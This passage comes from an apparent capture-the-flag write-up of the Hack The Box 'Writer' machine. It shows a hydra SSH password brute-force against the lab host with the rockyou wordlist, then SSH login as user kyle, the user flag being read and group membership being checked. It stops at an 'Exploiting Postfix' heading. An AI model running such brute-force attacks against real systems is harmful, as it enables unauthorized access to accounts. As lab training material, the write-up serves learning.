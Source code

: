 ```text
┌──(root💀kali)-[~/htb/writer]
└─# hydra -l kyle -P /usr/share/wordlists/rockyou.txt ssh://writer.htb -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-11 22:12:46
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://writer.htb:22/
 
[STATUS] 762.00 tries/min, 762 tries in 00:01h, 14343741 to do in 313:44h, 64 active
[STATUS] 517.67 tries/min, 1553 tries in 00:03h, 14342975 to do in 461:47h, 64 active
[STATUS] 468.29 tries/min, 3278 tries in 00:07h, 14341250 to do in 510:26h, 64 active
[STATUS] 453.93 tries/min, 6809 tries in 00:15h, 14337719 to do in 526:26h, 64 active
[22][ssh] host: writer.htb   login: kyle   password: <HIDDEN>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-11 22:34:00
```

Yep, twenty minutes and it had got me to the same point as all that work on the intended path! Of course we are here to learn so hopefully you did it the proper way.

## User Kyle Access

With the passowrd for Kyle we can now log in via SSH:

```text
┌──(root💀kali)-[~/htb/writer]
└─# ssh kyle@writer.htb        
The authenticity of host 'writer.htb (10.10.11.101)' can't be established.
ECDSA key fingerprint is SHA256:GX5VjVDTWG6hUw9+T11QNDaoU0z5z9ENmryyyroNIBI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'writer.htb,10.10.11.101' (ECDSA) to the list of known hosts.
kyle@writer.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

Last login: Mon Oct 11 15:31:14 2021 from 10.10.14.202
kyle@writer:~$ 
```

Grab the flag first:

```text
kyle@writer:~$ cat user.txt 
<HIDDEN>
```

Now checking user we see a group called filter:

```text
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
```

## Exploiting Postfix
